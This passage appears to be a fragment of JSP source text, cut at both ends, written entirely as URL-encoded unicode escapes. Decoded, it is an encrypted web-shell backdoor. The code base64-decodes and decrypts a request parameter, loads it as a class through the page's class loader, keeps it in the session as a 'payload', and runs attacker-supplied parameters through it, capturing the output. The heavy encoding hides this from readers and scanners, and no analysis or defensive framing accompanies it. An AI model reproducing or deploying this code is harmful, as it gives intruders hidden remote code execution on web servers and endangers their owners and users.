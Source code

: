 c%75%30%30%36%35%5c%75%30%30%33%62%5c%75%30%30%32%30%5c%75%30%30%37%64%25%3e%3c%25%5c%75%30%30%37%34%5c%75%30%30%37%32%5c%75%30%30%37%39%5c%75%30%30%37%62%5c%75%30%30%36%32%5c%75%30%30%37%39%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%35%62%5c%75%30%30%35%64%5c%75%30%30%32%30%5c%75%30%30%36%34%5c%75%30%30%36%31%5c%75%30%30%37%34%5c%75%30%30%36%31%5c%75%30%30%33%64%5c%75%30%30%36%32%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%36%35%5c%75%30%30%33%36%5c%75%30%30%33%34%5c%75%30%30%34%34%5c%75%30%30%36%35%5c%75%30%30%36%33%5c%75%30%30%36%66%5c%75%30%30%36%34%5c%75%30%30%36%35%5c%75%30%30%32%38%5c%75%30%30%37%32%5c%75%30%30%36%35%5c%75%30%30%37%31%5c%75%30%30%37%35%5c%75%30%30%36%35%5c%75%30%30%37%33%5c%75%30%30%37%34%5c%75%30%30%32%65%5c%75%30%30%36%37%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%35%30%5c%75%30%30%36%31%5c%75%30%30%37%32%5c%75%30%30%36%31%5c%75%30%30%36%64%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%32%38%5c%75%30%30%37%30%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%32%39%5c%75%30%30%32%39%5c%75%30%30%33%62%5c%75%30%30%36%34%5c%75%30%30%36%31%5c%75%30%30%37%34%5c%75%30%30%36%31%5c%75%30%30%33%64%5c%75%30%30%37%38%5c%75%30%30%32%38%5c%75%30%30%36%34%5c%75%30%30%36%31%5c%75%30%30%37%34%5c%75%30%30%36%31%5c%75%30%30%32%63%5c%75%30%30%32%30%5c%75%30%30%36%36%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%37%33%5c%75%30%30%36%35%5c%75%30%30%32%39%5c%75%30%30%33%62%5c%75%30%30%36%39%5c%75%30%30%36%36%5c%75%30%30%32%30%5c%75%30%30%32%38%5c%75%30%30%37%33%5c%75%30%30%36%35%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%36%39%5c%75%30%30%36%66%5c%75%30%30%36%65%5c%75%30%30%32%65%5c%75%30%30%36%37%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%34%31%5c%75%30%30%37%34%5c%75%30%30%37%34%5c%75%30%30%37%32%5c%75%30%30%36%39%5c%75%30%30%36%32%5c%75%30%30%37%35%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%32%38%5c%75%30%30%32%32%5c%75%30%30%37%30%5c%75%30%30%36%31%5c%75%30%30%37%39%5c%75%30%30%36%63%5c%75%30%30%36%66%5c%75%30%30%36%31%5c%75%30%30%36%34%5c%75%30%30%32%32%5c%75%30%30%32%39%5c%75%30%30%33%64%5c%75%30%30%33%64%5c%75%30%30%36%65%5c%75%30%30%37%35%5c%75%30%30%36%63%5c%75%30%30%36%63%5c%75%30%30%32%39%5c%75%30%30%37%62%5c%75%30%30%37%33%5c%75%30%30%36%35%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%36%39%5c%75%30%30%36%66%5c%75%30%30%36%65%5c%75%30%30%32%65%5c%75%30%30%37%33%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%34%31%5c%75%30%30%37%34%5c%75%30%30%37%34%5c%75%30%30%37%32%5c%75%30%30%36%39%5c%75%30%30%36%32%5c%75%30%30%37%35%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%32%38%5c%75%30%30%32%32%5c%75%30%30%37%30%5c%75%30%30%36%31%5c%75%30%30%37%39%5c%75%30%30%36%63%5c%75%30%30%36%66%5c%75%30%30%36%31%5c%75%30%30%36%34%5c%75%30%30%32%32%5c%75%30%30%32%63%5c%75%30%30%36%65%5c%75%30%30%36%35%5c%75%30%30%37%37%5c%75%30%30%32%30%5c%75%30%30%35%38%5c%75%30%30%32%38%5c%75%30%30%37%34%5c%75%30%30%36%38%5c%75%30%30%36%39%5c%75%30%30%37%33%5c%75%30%30%32%65%5c%75%30%30%36%37%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%34%33%5c%75%30%30%36%63%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%32%38%5c%75%30%30%32%39%5c%75%30%30%32%65%5c%75%30%30%36%37%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%34%33%5c%75%30%30%36%63%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%34%63%5c%75%30%30%36%66%5c%75%30%30%36%31%5c%75%30%30%36%34%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%32%38%5c%75%30%30%32%39%5c%75%30%30%32%39%5c%75%30%30%32%65%5c%75%30%30%35%31%5c%75%30%30%32%38%5c%75%30%30%36%34%5c%75%30%30%36%31%5c%75%30%30%37%34%5c%75%30%30%36%31%5c%75%30%30%32%39%5c%75%30%30%32%39%5c%75%30%30%33%62%5c%75%30%30%37%64%5c%75%30%30%36%35%5c%75%30%30%36%63%5c%75%30%30%37%33%5c%75%30%30%36%35%5c%75%30%30%37%62%5c%75%30%30%37%32%5c%75%30%30%36%35%5c%75%30%30%37%31%5c%75%30%30%37%35%5c%75%30%30%36%35%5c%75%30%30%37%33%5c%75%30%30%37%34%5c%75%30%30%32%65%5c%75%30%30%37%33%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%34%31%5c%75%30%30%37%34%5c%75%30%30%37%34%5c%75%30%30%37%32%5c%75%30%30%36%39%5c%75%30%30%36%32%5c%75%30%30%37%35%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%32%38%5c%75%30%30%32%32%5c%75%30%30%37%30%5c%75%30%30%36%31%5c%75%30%30%37%32%5c%75%30%30%36%31%5c%75%30%30%36%64%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%33%5c%75%30%30%32%32%5c%75%30%30%32%63%5c%75%30%30%36%34%5c%75%30%30%36%31%5c%75%30%30%37%34%5c%75%30%30%36%31%5c%75%30%30%32%39%5c%75%30%30%33%62%5c%75%30%30%36%61%5c%75%30%30%36%31%5c%75%30%30%37%36%5c%75%30%30%36%31%5c%75%30%30%32%65%5c%75%30%30%36%39%5c%75%30%30%36%66%5c%75%30%30%32%65%5c%75%30%30%34%32%5c%75%30%30%37%39%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%34%31%5c%75%30%30%37%32%5c%75%30%30%37%32%5c%75%30%30%36%31%5c%75%30%30%37%39%5c%75%30%30%34%66%5c%75%30%30%37%35%5c%75%30%30%37%34%5c%75%30%30%37%30%5c%75%30%30%37%35%5c%75%30%30%37%34%5c%75%30%30%35%33%5c%75%30%30%37%34%5c%75%30%30%37%32%5c%75%30%30%36%35%5c%75%30%30%36%31%5c%75%30%30%36%64%5c%75%30%30%32%30%5c%75%30%30%36%31%5c%75%30%30%37%32%5c%75%30%30%37%32%5c%75%30%30%34%66%5c%75%30%30%37%35%5c%75%30%30%37%34%5c%75%30%30%33%64%5c%75%30%30%36%65%5c%75%30%30%36%35%5c%75%30%30%37%37%5c%75%30%30%32%30%5c%75%30%30%36%61%5c%75%30%30%36%31%5c%75%30%30%37%36%5c%75%30%30%36%31%5c%75%30%30%32%65%5c%75%30%30%36%39%5c%75%30%30%36%66%5c%75%30%30%32%65%5c%75%30%30%34%32%5c%75%30%30%37%39%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%34%31%5c%75%30%30%37%32%5c%75%30%30%37%32%5c%75%30%30%36%31%5c%75%30%30%37%39%5c%75%30%30%34%66%5c%75%30%30%37%35%5c%75%30%30%37%34%5c%75%30%30%37%30%5c%75%30%30%37%35%5c%75%30%30%37%34%5c%75%30%30%35%33%5c%75%30%30%37%34%5c%75%30%30%37%32%5c%75%30%30%36%35%5c%75%30%30%36%31%5c%75%30%30%36%64%5c%75%30%30%32%38%5c%75%30%30%32%39%5c%75%30%30%33%62%5c%75%30%30%34%66%5c%75%30%30%36%32%5c%75%30%30%36%61%5c%75%30%30%36%35%5c%75%30%30%36%33%5c%75%30%30%37%34%5c%